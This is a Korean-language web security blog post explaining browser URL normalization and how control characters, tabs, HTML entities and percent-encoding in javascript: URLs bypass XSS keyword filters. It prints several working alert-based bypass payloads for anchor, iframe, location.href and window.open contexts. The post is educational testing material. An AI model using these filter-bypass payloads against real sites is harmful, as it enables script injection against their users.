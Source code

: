 ```yaml
---
title: URL Normalization with XSS 
date: 2023-12-07
author: glasses96
categories: [WEB]
tags: [URL Normalization, XSS]
pin: true
math: true
mermaid: true
---
```


> **URL Normalization에 대해서 알아봅시다.**  
> **추가로 URI Normalization으로 인한 javascript scheme 필터링 우회 XSS Payload를 알아봅시다.**  
> **마지막으로는 [filename_XSS](https://glasses96.github.io/posts/30/)에서 궁금한 점을 찾아보았습니다.**  
{: .prompt-info }

## URL Normalization
브라우저는 URL을 사용할 때 `Normalization`을 합니다.  
`정규화(Noramlization)`는 동일한 리소스를 나타내는 서로 다른 URL들을 통일된 형태로 변환하는 과정입니다

[RFC 3986](https://www.ietf.org/rfc/rfc3986.txt) 문서를 보면 어떤 규칙으로 정규화 되는지를 알 수 있습니다.  

또한 여러 유형의 정규화가 수행할 수 있으먀, 그 중 일부는 항상 의미 보존이 보장되는 반면, 일부는 그렇지 않을 수 있습니다.  
여기서 `의미 보존 보장`이란 정규화 후 복원 과정에서 원래의 의미가 손실되지 않는 것입니다. 

## Active Hyperlink
HTML 마크업에서 사용될 수 있는 URL들은 활성 콘텐츠를 포함할 수 있습니다.  
이 중 `javascript:` 스키마는 URL 로드 시 자바스크립트 코드를 실행할 수 있도록 합니다.

### a & iframe Tag XSS
`javascript`단어가 필터링 되어 있을 경우 정규화를 거치면서 URI에 포함된 줄바꿈문자(\n, \x0a), 탭(\t, \x09), 그외 특수문자 \x01, \x04 등이 제거되므로 이를 우회하여 스크립트 삽입이 가능합니다.  

추가적으로 HTML 태그 속성 내에 HTML Entity Encoding을 사용하여 우회할 수 도 있습니다. 
```html
<a href="\1\4jAVasC\triPT:alert(document.domain)">Click me!</a>
<iframe src="\1\4jAVasC\triPT:alert(document.domain)">


<a href="\1&#4;J&#97;v&#x61;sCr\tip&tab;&colon;alert(document.domain);">Click me!</a>
<iframe src="\1&#4;J&#97;v&#x61;sCr\tip&tab;&colon;alert(document.domain);">
```

자바스크립트에서는 URL 객체를 통해 URL을 직접 정규화할 수 있으며, protocol, hostname 등 URL의 각종 정보를 추출할 수 있습니다.  
XSS 필터링 우회 공격 구문을 작성하기 위해 직접 URL을 정규화해보며 테스트하는 것이 가능합니다.

```javascript
function normalizeURL(url) {
    return new URL(url, document.baseURI);
}
normalizeURL('\4\4jAva\tScRIpT:alert(1)').href
--> "javascript:alert(1)"
normalizeURL('\4\4jAva\tScRIpT:alert(1)').protocol
--> "javascript:"
normalizeURL('\4\4jAva\tScRIpT:alert(1)').pathname
--> "alert(1)"
```

## My Guess ?!
[filename_XSS](https://glasses96.github.io/posts/30/)에서 href 안에 URL Decoding이 처리되는 것을 알 수 있습니다.
궁금한 점은 혹시 다른 부분에서도 가능한지를 알아 보았고 `<iframe src=>`, `location.href`, `window.open`에서도 가능한 것을 알았습니다.  
 
HTML 태그 안에서 attribute, 혹은 javascript에 property, method에 `URL`이 들어가는 부분이 있습니다.
```html
<a href = "https://glasses96.github.io">test</a>
<iframe src = "https://glasses96.github.io"></iframe>
<script>location.href="https://glasses96.github.io"</script>
<script>window.open="https://glasses96.github.io"</script>
```

attribute 안에 `javascript 스키마`와 `% Encoding`을 넣게되면 동작을 안할줄 알았는데 동작이 잘됩니다.  
아래의 코드 예시를 보면 `%28,%29 -> ( )`, `%22 -> "` 으로 먹히는 것을 확인할 수 있습니다.  

```html
<img src="javascript:alert%28%22glasses96%22%29"> -> 동작 안함
<a href="javascript:alert%28%22glasses96%22%29"> -> 동작
<iframe src="javascript:alert%28%22glasses96%22%29"> -> 동작
<script>location.href="javascript:alert%28%22glasses96%22%29"</script> -> 동작
<script>window.open="javascript:alert%28%22glasses96%22%29"</script> -> 동작
```

### Conclusion
URL Normalize로 인하여 URL Decoding이 적용되어 동작하는 것이 아닌가라는 생각을 했지만  RFC3986 2.4 문서를 봤을 때는 아닌거 같습니다..  
흐음..... 명쾌한 답은 얻지 못했습니다ㅜㅜ
```
2.4.  When to Encode or Decode

   Under normal circumstances, the only time when octets within a URI
   are percent-encoded is during the process of producing the URI from
   its component parts.  This is when an implementation determines which
   of the reserved characters are to be used as subcomponent delimiters
   and which can be safely used as data.  Once produced, a URI is always
   in its percent-encoded form.

   When a URI is dereferenced, the components and subcomponents
   significant to the scheme-specific dereferencing process (if any)
   must be parsed and separated before the percent-encoded octets within
   those components can be safely decoded, as otherwise the data may be
   mistaken for component delimiters.  The only exception is for
   percent-encoded octets corresponding to characters in the unreserved
   set, which can be decoded at any time.  For example, the octet
   corresponding to the tilde ("~") character is often encoded as "%7E"
   by older URI processing implementations; the "%7E" can be replaced by
   "~" without changing its interpretation.

   Because the percent ("%") character serves as the indicator for
   percent-encoded octets, it must be percent-encoded as "%25" for that
   octet to be used as data within a URI.  Implementations must not
   percent-encode or decode the same string more than once, as decoding
   an already decoded string might lead to misinterpreting a percent
   data octet as the beginning of a percent-encoding, or vice versa in
   the case of percent-encoding an already percent-encoded string.
```

XSS 취약점을 수동으로 쫌 빠르게 찾기 위해서 Burp Repeater 기능을 이용하여 `'`, `"`, `<`, `>`등 과 같이 특수문자를 넣었을 때 그대로 반환 되는 지 여부를 찾았는데 입력값이 `%22, %27`처럼 반환될 경우 보통 value 안에 "" 묶여있어 탈출이 불가능하다고 생각하여 넘어가는 경우가 많았습니다.  
물론 안에 `"~~~~test.com?q=[입력값]"` 이런식으로 들어가서 스크립트를 동작시키기에는 무리였지만 해당 값이 HTML Attribute 어디에 들어가는지 보고 한번 더 생각할 수 있을 꺼 같습니다. 


## Reference
- https://learn.dreamhack.io/318#8
- https://www.ietf.org/rfc/rfc3986.txt